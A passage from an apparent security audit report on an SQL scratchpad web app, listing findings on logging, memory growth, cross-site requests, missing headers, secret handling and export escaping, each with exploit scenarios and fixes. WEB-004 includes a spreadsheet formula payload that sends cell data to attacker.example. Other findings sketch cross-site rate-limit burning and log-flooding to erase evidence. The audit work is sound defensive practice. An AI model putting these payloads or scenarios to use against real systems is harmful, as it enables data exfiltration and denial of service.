  exec-engine.ts:365-380  const deniedMsg = checkDenylist(...); if (deniedMsg) { results.push({ ..., error: { code: 'PLAYGROUND_DENIED', ... } }); ... }  // no log call; response is HTTP 200
  errors.ts:27-33  if (err instanceof ApiError) { ...reply.code(err.statusCode).send(...); return; }  // 403 FORBIDDEN / 429 PER_IP_WORKSPACE_LIMIT / 409 etc. returned silently
  app.ts:160-182  rateLimit registered with no onExceeding/onExceeded/onBanReach callbacks; errorResponseBuilder only builds the body.
  grep of logging calls in server/src: the only request-scoped app logs are 'Executing SQL batch' and 'Importing SQL file'; workspace creation, reset and delete (API-initiated) emit no log line at all; only janitor expiry/truncation is logged (workspace-manager.ts:739,801).
  Fastify's generic 'request completed' line (reqId + statusCode) does record 403/429 HTTP statuses, so those can be reconstructed by joining on reqId, but PLAYGROUND_DENIED (HTTP 200), per-IP cap hits, and the actor<->workspace lifecycle are not recoverable.
  ```
- **Exploit scenario:** An abuser repeatedly submits GRANT/INTO OUTFILE/INSTALL PLUGIN/USE other_ws statements and bursts against the rate limits. The operator has no log signal tying denied attempts to a (hashed) client or workspace, cannot see which client key created/reset/deleted which workspace, and cannot tell a probing client from a normal one after an incident. Combined with LOGGING-001's removal of raw identifiers, a sound audit trail needs explicit events with the hashed client key.
- **Fix:** Emit structured, privacy-safe events with a stable `event` field and the `clientIpHash` (daily salt) plus a short wsId digest: `workspace.create|reset|delete|expire`, `playground.denied` (rule id only, never SQL), `forbidden`, `rate_limited` (via @fastify/rate-limit `onExceeded`/`onBanReach` or in the error handler), `per_ip_cap_hit`, `import_budget_exceeded`. Log at info/warn so a LOG_LEVEL=warn deployment still keeps denials. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `cb9eb8d` — Emitted structured privacy-safe security audit events (playground.denied with ruleId only, authz.forbidden, rate_limited, import.budget_exceeded, workspace.create/reset/delete/expire) without logging raw SQL or wsId.

### [LOW] LOGGING-005 — sqlLogMeta logs an unsalted SHA-256 prefix of every SQL batch/import file (confirmable-text oracle) and UTF-16 length instead of byte length

- **Location:** `server/src/logger.ts:196-201`, `server/src/app.ts:261-268,310-317`, `web/src/about.ts:14-15`, `server/src/app.ts:261-268`
- **Layer:** `logging` | **CWE:** CWE-759 | **OWASP:** A02:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed — merged duplicate(s): `CRYPTO-002`
- **Description:** Confirmed in server/src/logger.ts:196-201: sqlLogMeta computes unsalted truncated SHA-256 (allowing confirmation of guessed SQL and cross-day correlation despite daily IP-salt rotation) and logs UTF-16 sql.length instead of UTF-8 byte length. Merged with CRYPTO-002. **Preconditions:** Read access to logs plus a candidate plaintext; works across days and across installations.
- **Evidence:**
  ```text
  logger.ts:196-200  export function sqlLogMeta(sql) { return { sqlLength: sql.length, sqlSha256: createHash('sha256').update(sql).digest('hex').slice(0, 16) }; }
  No salt/key, unlike IpHasher. `sql.length` counts UTF-16 code units, while AGENTS.md rule 4 says 'log only byte lengths and truncated hashes'.
  about.ts:15  privacy: 'No accounts, no analytics, and no SQL logged.'
  ```
- **Exploit scenario:** A log reader who suspects a specific statement or file (a known course assignment, a leaked dump, a specific query) computes sha256(text)[:16] and greps the logs: a match proves that text was submitted, with a timestamp and the per-day clientIpHash of the submitter. For short/low-entropy statements (`SELECT * FROM users;`) the hash can be brute-forced from a dictionary of common queries, effectively recovering the SQL. The 16-hex prefix is for correlation, but being deterministic across days and deployments it defeats the daily salt rotation that protects IPs.
- **Fix:** Replace with a keyed hash: HMAC-SHA-256 with a process-lifetime (or daily-rotating) random key held in IpHasher (e.g. `ipHasher.sqlHash(sql)`), truncated to 16 hex; use Buffer.byteLength(sql, 'utf8') for sqlLength. Keep tests in exec-engine.test.ts:335 updated. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `7b4173e` — Switched sqlLogMeta to keyed HMAC-SHA-256 (daily-rotated key via IpHasher or per-process random fallback) and UTF-8 byte length via Buffer.byteLength.

### [LOW] LOGGING-006 — Every request (including unlimited unauthenticated routes) is logged at info with a full URL, so an attacker can flood and rotate the 30 MB log window

- **Location:** `server/src/app.ts:127-131,197-217`, `server/src/logger.ts:177-193`, `deploy/docker-compose.yml:51-55`
- **Layer:** `logging` | **CWE:** CWE-779 | **OWASP:** A09:2021 | **Confidence:** `possible`
- **Verdict:** Confirmed
- **Description:** Confirmed in server/src/logger.ts:185-190, server/src/app.ts:127-131,197-217, and deploy/docker-compose.yml:51-55: every request (including unlimited /api/health and 404s) logs full uncapped req.url with query strings into a 30 MB (3 x 10m) Docker json-file log ring. **Preconditions:** Public deployment without an upstream rate limit and without off-host log shipping.
- **Evidence:**
  ```text
  app.ts:128  logger: buildLoggerOptions(...)  // Fastify default request logging enabled (two info lines per request: 'incoming request' with req.url, 'request completed')
  logger.ts:185-190  url: request.url  // no length cap; up to Node's ~16 KB header limit
  deploy/docker-compose.yml:54-55  max-size: '10m', max-file: '3'  // whole app log history is at most 30 MB
  /api/health, /api/datasets and all static/404 paths have no rate limit (see API-005).
  ```
- **Exploit scenario:** After an abusive session (e.g. repeated PLAYGROUND_DENIED attempts, ownership probes), the attacker loops GET /api/health?<16 KB padding>. Each request writes ~2 lines carrying ~16 KB of attacker-controlled URL; at a few thousand requests per second the three 10 MB json-file chunks rotate in seconds, evicting the earlier evidence. Pino's JSON encoding prevents CRLF/log-line forging, but not volume-based eviction.
- **Fix:** Truncate logged URLs (e.g. 200 chars) in the req serializer and strip the query string; disable request logging for /api/health (`disableRequestLogging` function or `logLevel: 'warn'` per route), add rate limits to unauthenticated routes, and ship logs off-host or raise retention for warn/error events. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `7b4173e` — Stripped query strings and truncated logged URLs to 200 chars in Pino req serializer, and silenced loopback /api/health request logging.

### [LOW] LOGIC-005 — ImportByteBudget map is never pruned and is charged before the workspace is validated, so it grows without bound with distinct client keys

- **Location:** `server/src/import-engine.ts:17-69`, `server/src/app.ts:279-303`, `server/src/app.ts:188,284-290`
- **Layer:** `logic` | **CWE:** CWE-770 | **OWASP:** A04:2021 | **Confidence:** `likely`
- **Verdict:** Confirmed — merged duplicate(s): `API-007`
- **Description:** Confirmed in server/src/import-engine.ts:17-69 and server/src/app.ts:279-303: ImportByteBudget.usage has no periodic pruning or size cap, and preHandler charges the map for any regex-valid wsId before checking workspace existence. Merged with API-007. **Preconditions:** Attacker needs many distinct source IPs or IPv6 /64 prefixes; unauthenticated.
- **Evidence:**
  ```text
  private readonly usage = new Map<string, Array<{ ts: number; bytes: number }>>();
  consume(key, bytes, now) { const existing = this.usage.get(key) ?? []; const active = existing.filter((e) => e.ts > cutoff); ... active.push({ ts: now, bytes }); this.usage.set(key, active); ... }
  Entries are removed only if the same key calls consume() again while over budget with no active entries (line 40-42). There is no periodic sweep and no size cap. The preHandler (app.ts 279-303) charges the budget for any syntactically valid wsId (pattern ^[a-z2-7]{8,64}$), including workspaces that do not exist, and accepts sql of length 0.
  ```
- **Exploit scenario:** 1. Attacker with a large IPv6 allocation (the key is the /64 prefix; a /48 gives 65,536 keys, a /32 gives about 4 billion) or many IPv4 addresses sends POST /api/workspaces/<any valid-looking id>/import with {"sql":""} from each prefix. 2. Each distinct key permanently adds a Map entry plus array, object and 16-char key string (a few hundred bytes), never freed because that key never returns. 3. Several hundred thousand keys exhaust the 192 MB container heap, as a slow memory leak. Requests are rejected later with 404 but the budget entry already exists. Per-key rate limit (20/h) does not help because each key is new. @fastify/rate-limit's own store is an LRU and does not have this problem.
- **Fix:** Add an interval sweep (for example every 5 minutes, unref'd) deleting keys whose newest entry is older than windowMs, and cap the Map (evict oldest or fail closed with 429 above N keys, e.g. 50,000). Charge the budget only after getWorkspace(wsId) succeeds. Collapse each key's history to a counter/window instead of an array of entries. Unit-test the pruning in hardening.test.ts. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `0539151` — Added periodic unref'd pruning (stopped on app close) and a 50,000 tracked-key fail-closed cap to ImportByteBudget, paired with early wsId validation before budget charging.

### [LOW] LOGIC-006 — deleteWorkspace removes the entry before dropping the DB; a failed drop orphans the database and user until the next process restart

- **Location:** `server/src/workspace-manager.ts:523-543`, `server/src/workspace-manager.ts:684-716`, `server/src/server.ts:12-16`
- **Layer:** `logic` | **CWE:** CWE-459 | **OWASP:** A04:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in server/src/workspace-manager.ts:523-543,684-716 and server/src/server.ts:12-16: deleteWorkspace deletes wsId from this.workspaces before await dropDbAndUser(), so any drop error orphans the DB/user until next process restart. **Preconditions:** A transient DB or pool failure during a drop (more likely during the attacks in LOGIC-003/004). Not directly attacker-controllable.
- **Evidence:**
  ```text
  acquired = await this.acquireAllSessionLocksForTeardown(ws, timeoutMs);
  this.workspaces.delete(wsId);
  deleted = true;
  await this.closeAllSessions(ws);
  await this.dropDbAndUser(ws.database, ws.dbUser);   // throws on DB error / pool exhaustion
  cleanupOrphans() is called only at boot (server.ts, cleanupOrphansOnBoot) and in tests; the janitor never calls it.
  ```
- **Exploit scenario:** 1. While the admin pool is saturated or MariaDB briefly errors (see LOGIC-004), a DELETE, /close, expiry sweep or create-failure cleanup runs dropDbAndUser and it throws. 2. The workspace is already gone from this.workspaces, so the per-IP and global counters drop and the owner can create a replacement, but the ws_<hex> database with its data and its user remain in MariaDB. 3. Nothing retries; the leftovers occupy disk (counted by getTotalWorkspaceBytes) until the app restarts. Repeated failures under load can fill the 1 GB total budget with unreachable orphans, so new workspaces are refused with STORAGE_BUDGET_EXCEEDED.
- **Fix:** Keep the entry (state 'deleting', ws.deleting already exists) until dropDbAndUser succeeds, and delete from the Map afterwards; on failure leave it for the janitor to retry. Additionally run cleanupOrphans() (or a retry queue of failed drops) from the janitor sweep, guarded against databases of in-flight creates. *(Fix risk: `medium`; manual action required: No.)*
- **Status:** Fixed in `c546dd1` — Retained deleting entries in WorkspaceManager.workspaces until dropDbAndUser succeeds, retried failed drops in runJanitorSweep, and guarded cleanupOrphans against in-flight creates.

### [LOW] LOGIC-007 — Failed resetWorkspace leaves the workspace dropped or half-provisioned with a rotated password, while it stays registered and counted

- **Location:** `server/src/workspace-manager.ts:475-500`, `server/src/import-engine.ts:372-375`
- **Layer:** `logic` | **CWE:** CWE-755 | **OWASP:** A04:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in server/src/workspace-manager.ts:475-500: after dropDbAndUser(), resetWorkspace mutates ws.password and ws.dataset before provisionDbAndUser()/cloneTemplate(), leaving a broken entry in this.workspaces if provisioning throws. **Preconditions:** Transient DB failure during a reset; amplified under load.
- **Evidence:**
  ```text
  await this.closeAllSessions(ws);
  await this.dropDbAndUser(ws.database, ws.dbUser);
  const newPassword = randomBytes(32).toString('base64url');
  ws.password = newPassword;  ws.dataset = datasetId;
  await this.provisionDbAndUser(ws.database, ws.dbUser, ws.password);
  if (datasetId !== 'empty') await this.cloneTemplate(...);
  // the finally block only clears flags and releases session locks; there is no rollback or re-provision
  import-engine.ts: for mode 'fresh', resetWorkspace(wsId, 'empty') runs before any import statement is executed.
  ```
- **Exploit scenario:** 1. A reset (user /reset, import mode 'fresh', or janitor over-cap reset) hits a transient error after the DROP (for example the admin pool is saturated, or CREATE USER times out). 2. The workspace stays in the Map: its database and user are gone or partial, and ws.dataset and ws.password already point at the new values. 3. Every later /exec or /import tries createConnection and fails with an access-denied or unknown-database mysql2 error. That is not an ApiError, so it surfaces as a generic 500 and the browser never sees a 404 that would trigger recreation. 4. The workspace keeps its slot against the per-IP cap and is kept alive by each retried request (touchWorkspace), up to 12 h. Attackers can also deliberately time resets against LOGIC-004 to wedge other users' workspaces only if they hold the wsId (see CRYPTO-001).
- **Fix:** On any failure after dropDbAndUser, either retry provisioning in a loop with backoff or mark the workspace as dead (delete the entry and best-effort drop) so the client receives 404 WORKSPACE_NOT_FOUND and auto-creates a fresh one. Assign ws.password/ws.dataset only after provisioning succeeds. Return a deterministic 5xx ApiError code for session-connection failures. *(Fix risk: `medium`; manual action required: No.)*
- **Status:** Fixed in `c546dd1` — Deferred ws.password/ws.dataset mutation in resetWorkspace until re-provisioning succeeds and evicted/cleaned up broken workspaces on post-drop failure.

### [LOW] SECRETS-001 — Database init scripts pass root and admin passwords via process command-line arguments

- **Location:** `db/init/00-admin-user.sh:10-18`, `db/init/10-sample-library.sh:11-13`, `db/init/00-admin-user.sh:12-18`
- **Layer:** `secrets` | **CWE:** CWE-214 | **OWASP:** A02:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed — merged duplicate(s): `INFRA-005`
- **Description:** Confirmed in db/init/00-admin-user.sh:12-18 and db/init/10-sample-library.sh:11-13: both scripts pass MARIADB_ROOT_PASSWORD via -p and 00-admin-user.sh passes SQLSCRATCHPAD_ADMIN_PASSWORD in the -e SQL argument, exposing them in /proc/<pid>/cmdline during first-boot init. Merged with INFRA-005. **Preconditions:** Attacker or log collector must have visibility into host or DB container process command lines (/proc/<pid>/cmdline or execve audit telemetry) during initial MariaDB data-directory provisioning.
- **Evidence:**
  ```text
  db/init/00-admin-user.sh:10-18:
  ESCAPED_PWD=$(printf '%s' "${SQLSCRATCHPAD_ADMIN_PASSWORD}" | sed "s/'/''/g")
  mariadb --protocol=socket -u root -p"${MARIADB_ROOT_PASSWORD}" -e "
  CREATE USER IF NOT EXISTS 'scratchpad_admin'@'%' IDENTIFIED BY '${ESCAPED_PWD}';
  ..."

  db/init/10-sample-library.sh:11-13:
  mariadb --protocol=socket -u root -p"${MARIADB_ROOT_PASSWORD}" -e \
    "CREATE DATABASE IF NOT EXISTS tpl_sample_library CHARACTER SET utf8mb4 COLLATE utf8mb4_unicode_ci;"
  mariadb --protocol=socket -u root -p"${MARIADB_ROOT_PASSWORD}" tpl_sample_library < "${SEED_FILE}"
  ```
- **Exploit scenario:** During first-time MariaDB volume initialization, a co-located process sharing the PID namespace, an unprivileged user on a Docker host without procfs hidepid=2, or host-level execve audit/observability telemetry (e.g., auditd, eBPF, process collectors) reads /proc/<pid>/cmdline for the mariadb client process. While mariadb overwrites its -p argument shortly after startup (still captured by execve telemetry and during the startup race), the -e SQL argument containing IDENTIFIED BY '<SQLSCRATCHPAD_ADMIN_PASSWORD>' is never masked by the client and remains readable in plaintext for the full command lifetime, exposing both MARIADB_ROOT_PASSWORD and SQLSCRATCHPAD_ADMIN_PASSWORD.
- **Fix:** Pass MARIADB_ROOT_PASSWORD via the MYSQL_PWD environment variable (scoped to the mariadb invocation, matching .github/workflows/ci.yml) instead of -p, and pass the SQL in db/init/00-admin-user.sh over stdin using the POSIX shell builtin printf (never spawning an external command with the secret in argv), also escaping backslashes before single quotes. Example in db/init/00-admin-user.sh: ESCAPED_PWD=$(printf '%s' "${SQLSCRATCHPAD_ADMIN_PASSWORD}" | sed "s/\\\\/\\\\\\\\/g; s/'/''/g"); printf "CREATE USER IF NOT EXISTS 'scratchpad_admin'@'%%' IDENTIFIED BY '%s';\n...\n" "${ESCAPED_PWD}" | MYSQL_PWD="${MARIADB_ROOT_PASSWORD}" mariadb --protocol=socket -u root. In db/init/10-sample-library.sh, replace -p"${MARIADB_ROOT_PASSWORD}" with MYSQL_PWD="${MARIADB_ROOT_PASSWORD}" mariadb --protocol=socket -u root ... *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `b6d421f` — Switched db/init/00-admin-user.sh and db/init/10-sample-library.sh to scoped MYSQL_PWD env vars and POSIX printf stdin piping instead of -p/-e argv.

### [LOW] SECRETS-002 — .dockerignore and .gitignore omit nested .env files, non-deploy *.env files, and key/certificate extensions

- **Location:** `.dockerignore:2-4`, `.gitignore:4-8`, `Dockerfile:20-27`
- **Layer:** `secrets` | **CWE:** CWE-200 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in .dockerignore:2-4, .gitignore:4-8, and Dockerfile:20-27: .dockerignore only excludes root-level .env/.env.* (missing **/.env*, *.env, *.pem, *.key) while Dockerfile copies web/ and runs Vite build; .gitignore omits non-deploy *.env, deploy/*.env.*, and key/cert extensions. **Preconditions:** Developer or operator has nested .env* files (e.g. web/.env.local, server/.env), non-deploy *.env files, deploy/*.env.* backups, or TLS key/cert files present in the local working tree when running docker build or git add.
- **Evidence:**
  ```text
  .dockerignore:2-4:
  .env
  .env.*
  !.env.example
  (no **/.env, **/.env.*, *.env, **/*.env, *.pem, **/*.pem, *.key, **/*.key, *.p12, **/*.p12, *.pfx, **/*.pfx)

  Dockerfile:20-27:
  COPY shared ./shared
  COPY server ./server
  COPY web ./web
  ...
  RUN pnpm --filter @sql-scratchpad/shared build ; pnpm --filter @sql-scratchpad/server build ; pnpm --filter @sql-scratchpad/web build

  .gitignore:4-8:
  .env
  .env.*
  !.env.example
  deploy/*.env
  !deploy/*.env.example
  (no *.env outside deploy/, no deploy/*.env.*, no *.pem / *.key / *.p12 / *.pfx / *.jks)
  ```
- **Exploit scenario:** 1) Docker build-context / Vite bundle leakage: An operator or developer building locally with deploy/docker-compose.build.yml who has a local web/.env, web/.env.local, web/.env.production.local, server/.env, or TLS private key (*.key/*.pem) inside server/, shared/, or web/ triggers COPY web ./web and COPY server ./server in Dockerfile:20-22. Because .dockerignore only matches root-level .env/.env.*, those files enter the builder stage layers and BuildKit cache; worse, Vite automatically loads web/.env* during pnpm --filter @sql-scratchpad/web build and statically inlines any VITE_* values into web/dist/assets/index-*.js, which Dockerfile:53 copies into the runtime image and serves publicly to unauthenticated browsers. 2) Public repo commit leakage: Because .gitignore only ignores deploy/*.env (not *.env at root/subdirs, deploy/*.env.bak / deploy/*.env.local, or *.pem/*.key/*.p12/*.pfx/*.jks), an accidental git add . can stage local credentials or TLS private keys and push them to this public repository.
- **Fix:** In .dockerignore, replace root-only .env/.env.* with recursive exclusions and add key/cert/env patterns (dropping !.env.example since the container build does not need it): **/.env, **/.env.*, *.env, **/*.env, *.pem, **/*.pem, *.key, **/*.key, *.p12, **/*.p12, *.pfx, **/*.pfx, *.jks, **/*.jks. In .gitignore, add *.env, deploy/*.env.*, !deploy/*.env.example, *.pem, *.key, *.p12, *.pfx, and *.jks. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `037af4d` — Added recursive .env*, *.env, and key/certificate exclusions (*.pem, *.key, *.p12, *.pfx, *.jks) to .gitignore and .dockerignore while preserving *.env.example templates in git.

### [LOW] WEB-001 — No cross-site request (Origin / Sec-Fetch-Site / Content-Type) enforcement on state-changing /api routes; a third-party page can burn the victim's per-IP rate-limit buckets

- **Location:** `server/src/app.ts:118-183`, `server/src/app.ts:219-236`, `server/src/app.ts:347-358`, `web/src/engines/mariadb.ts:152-165`
- **Layer:** `web` | **CWE:** CWE-352 | **OWASP:** A01:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Reproduced directly against built server/dist/app.js: 20 cross-site text/plain POSTs with Origin: https://evil.example and Sec-Fetch-Site: cross-site exhausted the 20/h /api/workspaces rate-limit bucket so the subsequent same-origin JSON POST received 429, and cross-site text/plain POST to /close reached the handler. **Preconditions:** Victim visits an attacker-controlled page while the app is reachable from the victim's browser. Public deployment. No wsId knowledge needed for the rate-limit burn.
- **Evidence:**
  ```text
  app.ts has no onRequest/preValidation hook that checks Origin, Sec-Fetch-Site or Content-Type, and registers no CORS plugin. Rate limiting is keyed only by client IP (keyGenerator: ipHasher.key(req.ip)) and is counted BEFORE body validation. The client beacon is `navigator.sendBeacon(url)` (no body, no content-type) to POST /api/workspaces/:wsId/close, so the server must accept content-type-less POSTs. Harness run against buildApp() with rate limiting on (mock DB pool): 20 POST /api/workspaces with `content-type: text/plain`, `origin: https://evil.example`, `sec-fetch-site: cross-site` from one client IP -> req #1 400 (x-ratelimit-remaining 19), req #21 429 retry-after 3600. A following legitimate same-origin JSON POST from the same IP -> 429 {"error":{"code":"RATE_LIMITED"}}. Also verified: text/plain POST to /close and /sessions/A/kill reaches the handler (404 WORKSPACE_NOT_FOUND, i.e. no CSRF gate); application/x-www-form-urlencoded gets 415; OPTIONS returns 404 (no CORS headers, so JSON cross-origin calls are blocked by the browser's preflight).
  ```
- **Exploit scenario:** 1) Attacker hosts a page that, via fetch(..., {mode:'no-cors', method:'POST', headers:{'Content-Type':'text/plain'}, body:'x'}) or <form method=post enctype=text/plain> / navigator.sendBeacon, fires 20+ POSTs at https://<deployment>/api/workspaces (and /reset, /import limits are reachable the same way once a wsId is known). 2) The victim's browser sends them from the victim's IP (or the shared NAT / IPv6 /64 prefix). 3) The 20/h per-IP bucket is exhausted, so the victim (and everyone sharing that IP key) gets 429 on workspace creation for up to 1 hour. Cross-site calls cannot create workspaces or touch another user's workspace because wsId is a 128-bit capability and bodies must be JSON objects, so impact is limited to browser-mediated denial of service, not data access.
- **Fix:** Add a global onRequest hook in buildApp(): for methods other than GET/HEAD/OPTIONS, reject with 403 when `sec-fetch-site` is 'cross-site' (or when an Origin header is present and its host differs from the request Host / a configured PUBLIC_ORIGIN). Same-origin fetch and sendBeacon both send Origin/Sec-Fetch-Site, so the existing client keeps working; do not require application/json on /close because sendBeacon(url) without a body sends none. Optionally require content-type application/json when a body is present on the other POST routes. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `539df2b` — Added a global onRequest hook before @fastify/rate-limit rejecting cross-site or mismatched-Origin non-GET/HEAD/OPTIONS requests with 403 CROSS_SITE_FORBIDDEN while preserving same-origin sendBeacon.

### [LOW] WEB-002 — API responses (/api/*) and early 404/400 responses carry no security headers

- **Location:** `server/src/static.ts:28-32`, `server/src/static.ts:61-86`, `server/src/errors.ts:22-72`, `server/src/app.ts:197-217`
- **Layer:** `web` | **CWE:** CWE-693 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Reproduced directly against built server/dist/app.js: GET /api/health and early 404 GET /.env returned no Content-Security-Policy, X-Content-Type-Options, Referrer-Policy, or Cache-Control headers because applySecurityHeaders() only runs late in server/src/static.ts:86. **Preconditions:** Requires a future change or a non-compliant client/intermediary; no known exploit path.
- **Evidence:**
  ```text
  applySecurityHeaders() (CSP, X-Content-Type-Options, Referrer-Policy) is only called inside the static not-found handler, after the dotfile/traversal early returns (static.ts:69-84). No global onSend/onRequest hook sets headers. Harness output (Fastify inject against buildApp): GET /api/health -> headers {ct: application/json} only; GET /api/datasets, GET /api/unknown, POST /api/workspaces (400/415), POST .../close (404) -> no csp, no x-content-type-options, no referrer-policy, no cache-control. GET /.env -> 404 with none of the headers. Validation errors echo user input in JSON bodies (e.g. app WorkspaceManager.assertValidDataset: `Unknown dataset: ${datasetId}`).
  ```
- **Exploit scenario:** No direct exploit today: all /api bodies are JSON with a JSON content-type and the SPA never renders them as HTML. The gap removes defence in depth: if any /api response is ever navigated to directly or content-type handling changes, there is no nosniff / sandbox CSP, and error bodies that reflect attacker-chosen strings (dataset id) are served without X-Content-Type-Options. GET /api/workspaces/:wsId/schema responses (which contain the capability id in the request URL) have no Cache-Control: no-store, so shared/intermediary caches are not told to avoid storing them.
- **Fix:** Move the header set into one global `app.addHook('onSend', ...)` in app.ts so every response (API JSON, errors, 404s, 429s) gets CSP, X-Content-Type-Options: nosniff, Referrer-Policy: no-referrer; for /api/* additionally set `Cache-Control: no-store` and a `Content-Security-Policy: default-src 'none'; frame-ancestors 'none'`. Keep the static-specific CSP for non-/api paths. Add a hardening test asserting headers on /api/health, an API 404, and a 429. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `589556f` — Moved security header emission to a global onSend hook in buildApp (with strict API CSP and Cache-Control: no-store for /api/*) and applied early headers in registerStaticSpa.

### [LOW] WEB-003 — CSP and response-header hardening gaps: no base-uri/form-action, style-src 'unsafe-inline', no HSTS / Permissions-Policy / Cross-Origin-* headers

- **Location:** `server/src/static.ts:7-8`, `server/src/static.ts:28-32`
- **Layer:** `web` | **CWE:** CWE-1021 | **OWASP:** A05:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in server/src/static.ts:7-8,28-32: CSP omits base-uri, form-action, img-src, font-src, and connect-src, and responses omit Permissions-Policy, Cross-Origin-Opener-Policy, and Cross-Origin-Resource-Policy (style-src 'unsafe-inline' remains needed for CodeMirror 6 runtime styles). **Preconditions:** Needs a separate injection bug (none found) or an on-path attacker on a plain-HTTP first visit.
- **Evidence:**
  ```text
  export const CSP_HEADER = "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; object-src 'none'; frame-ancestors 'none'"; applySecurityHeaders sets only CSP, X-Content-Type-Options and Referrer-Policy. Observed on GET / and /favicon.svg: no Strict-Transport-Security, Permissions-Policy, Cross-Origin-Opener-Policy, Cross-Origin-Resource-Policy, Cross-Origin-Embedder-Policy; CSP lacks base-uri and form-action (they do not fall back to default-src). Positives confirmed: frame-ancestors 'none' (clickjacking blocked), script-src 'self' with no inline script, no external hosts in web/dist bundle or index.html, no v-html/innerHTML anywhere in web/src.
  ```
- **Exploit scenario:** Defence-in-depth only. If an HTML-injection bug is introduced later, the missing base-uri lets an injected <base href> redirect relative script/asset URLs to an attacker host (script-src 'self' is evaluated against the rewritten base only for relative URLs resolved after injection, e.g. /assets/*.js if injected before the script tag), the missing form-action allows an injected <form> to post to a third party, and style-src 'unsafe-inline' permits CSS-based data exfiltration. Without HSTS a first visit over http:// on a path to the public host can be downgraded by an on-path attacker; docs/SELF-HOSTING.md tells operators NOT to duplicate security headers at the proxy, so the app container is the only place they can come from.
- **Fix:** Extend CSP_HEADER to `default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self'; font-src 'self'; connect-src 'self'; object-src 'none'; base-uri 'none'; form-action 'none'; frame-ancestors 'none'` (keep 'unsafe-inline' for styles unless Vue/CodeMirror runtime styles are moved to nonces; CodeMirror injects <style> at runtime so removing it is not trivial). Add `Permissions-Policy: camera=(), microphone=(), geolocation=(), payment=(), usb=(), clipboard-read=()` (clipboard-write must stay allowed for Copy TSV/Markdown), `Cross-Origin-Opener-Policy: same-origin`, `Cross-Origin-Resource-Policy: same-origin`, and `Strict-Transport-Security: max-age=31536000` (only emitted when x-forwarded-proto is https from a trusted proxy, or documented as a proxy responsibility). Update static.test.ts expectations accordingly. *(Fix risk: `medium`; manual action required: No.)*
- **Status:** Fixed in `589556f` — Extended static CSP with img-src, font-src, connect-src, base-uri 'none', and form-action 'none', and added Permissions-Policy, COOP, CORP, and conditional HTTPS HSTS headers.

### [LOW] WEB-004 — Copy TSV / Copy Markdown export does not neutralise spreadsheet formulas or Markdown/HTML markup from cell values and column names

- **Location:** `web/src/utils/export-grid.ts:30-53`, `web/src/components/ResultGrid.vue:92-109`
- **Layer:** `web` | **CWE:** CWE-1236 | **OWASP:** A03:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in web/src/utils/export-grid.ts:30-53 and web/src/components/ResultGrid.vue:92-109: escapeTsvCell leaves leading spreadsheet formula triggers (=, +, -, @, lone \r) untouched and escapeMdCell leaves Markdown/HTML metacharacters (\, <, >, [, ], !, `) unescaped. **Preconditions:** Victim must import/open untrusted SQL data, copy results, and paste into a formula-evaluating spreadsheet or Markdown renderer. Data is only the victim's own workspace.
- **Evidence:**
  ```text
  function escapeTsvCell(value) { const text = formatCellText(value); return text.replace(/\t/g, ' ').replace(/\r?\n/g, ' '); }  function escapeMdCell(value) { return formatCellText(value).replace(/\|/g, '\\|').replace(/\r?\n/g, ' '); }  Cells and aliases are copied verbatim: a value starting with = + - @ (or a tab/CR prefix) is passed through unchanged, a lone \r is not stripped, a leading double quote is not handled, and Markdown metacharacters (<, [, ], !, `, backslash) are not escaped (a value ending in a backslash before the next pipe also breaks the cell boundary). Column names come from the SQL aliases (SELECT 1 AS `=HYPERLINK(...)`).
  ```
- **Exploit scenario:** 1) Attacker publishes a 'tutorial'/'sample data' .sql dump (the app explicitly supports importing .sql files and drag-and-drop) containing INSERT rows such as '=HYPERLINK("https://attacker.example/?"&A1,"click")' or '=IMPORTXML(...)'. 2) Victim imports it, runs SELECT *, clicks 'Copy TSV' and pastes into Excel/Google Sheets: the cell is evaluated as a formula (data exfiltration via HYPERLINK/IMPORTXML/WEBSERVICE, or DDE payloads in older Excel with a warning prompt). 3) With 'Copy Markdown', a cell like '' or '' pasted into a GitHub issue/README/wiki renders a tracking image or raw HTML on a downstream renderer.
- **Fix:** In escapeTsvCell, prefix cells (and headers) whose trimmed text starts with = + - @ \t \r with a single quote ('), strip all \r, and wrap in double quotes with doubled inner quotes when the cell begins with a quote. In escapeMdCell, escape backslash first, then `|`, and backslash-escape `` ` * _ [ ] < > ! `` (or replace < > with &lt; &gt;). Keep numeric values (isNumericValue) untouched so negative numbers are not prefixed. Add unit tests to web/src/utils/utils.test.ts for each class. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `0d37888` — Neutralised non-numeric TSV spreadsheet formula prefixes (=, +, -, @, CR, tab), stripped lone CR, quoted leading double-quotes, and escaped Markdown/HTML metacharacters in export-grid.ts.

<!-- Informational (13) -->

### [INFO] API-008 — Version and backend-error detail disclosed to unauthenticated clients (/api/health version, raw Fastify 4xx and MariaDB messages)

- **Location:** `server/src/app.ts:34-43,197-213`, `server/src/errors.ts:35-41,63-67`, `server/src/exec-engine.ts:463-475`, `server/src/import-engine.ts:535-544`
- **Layer:** `api` | **CWE:** CWE-209 | **OWASP:** A05:2021 | **Confidence:** `possible`
- **Verdict:** Confirmed
